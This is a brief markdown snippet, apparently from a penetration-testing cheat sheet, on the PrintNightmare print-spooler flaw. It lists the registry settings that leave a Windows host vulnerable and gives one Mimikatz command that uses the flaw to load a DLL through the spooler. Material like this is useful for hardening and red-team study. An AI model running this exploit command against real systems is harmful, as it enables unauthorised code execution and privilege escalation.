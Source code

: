 ### PrintNightmare - Vulnerable Settings

- RestrictDriverInstallationtoAdministrators 0
- NoWarningNoElevationOnInstall 1
- UpdatePromptSettings 1

### Mimikatz

- misc::printnightmare /library:c:\mimikatz\mimispool.dll
